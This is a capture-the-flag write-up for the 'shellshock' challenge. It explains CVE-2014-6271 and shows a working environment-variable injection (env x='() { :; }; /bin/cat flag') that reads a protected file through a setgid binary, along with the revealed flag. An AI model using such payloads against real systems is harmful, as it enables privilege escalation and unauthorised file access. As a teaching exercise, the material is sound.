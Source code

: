 # shellshock

The home folder of this challenge contains the following:

```
shellshock@ubuntu:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

### shellshock.c

```
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

Shellshock is a vulnerability in bash, where bash incorrectly executes trailing commands when it imports a function definition stored into an environment variable.

This is how shellshock works:

```
$ env x='() { :; }; echo pwned' bash -c echo real program
  ^^^^^^^^^^^^^^^^^                                  Command to set the environment variable
                   ^^^^^^^^^^^^                      The arbitrary command which will executed by bash
                               ^^^^^^^^^^^^^^^^^^^^  Real command
```

If the bash is vulnerable for shellshock, the arbitrary command that is set in the environment variable will be executed (with the privileges of the bash user) before executing the real command.

```
shellshock@ubuntu:~$ which cat
/bin/cat
shellshock@ubuntu:~$ env x='() { :; }; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```
